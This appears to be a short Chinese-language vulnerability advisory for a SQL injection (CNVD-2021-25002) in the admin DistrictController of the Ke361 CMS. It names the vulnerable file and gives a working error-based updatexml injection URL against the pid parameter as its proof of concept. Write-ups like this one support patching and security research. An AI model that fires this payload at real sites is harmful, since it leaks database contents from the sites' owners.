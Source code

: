 # Ke361 DistrictController.class.php 后台SQL注入漏洞 CNVD-2021-25002

# Ke361 DistrictController.class.php 后台SQL注入漏洞 CNVD-2021-25002

## 漏洞描述

Ke361 DistrictController.class.php index() 函数 pid参数存在 SQL注入漏洞，通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
Ke361
```

## 环境搭建

https://gitee.com/jcove/ke361

## 漏洞复现

存在漏洞的文件为 `Application/Admin/Controller/DistrictController.class.php`

![image-20220518153238593](C:/Users/47236/AppData/Roaming/Typora/typora-user-images/image-20220518153238593.png)

验证POC

```
admin.php?s=/District/index/pid/1)%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![image-20220518153336344](/images/202205181533405.png)

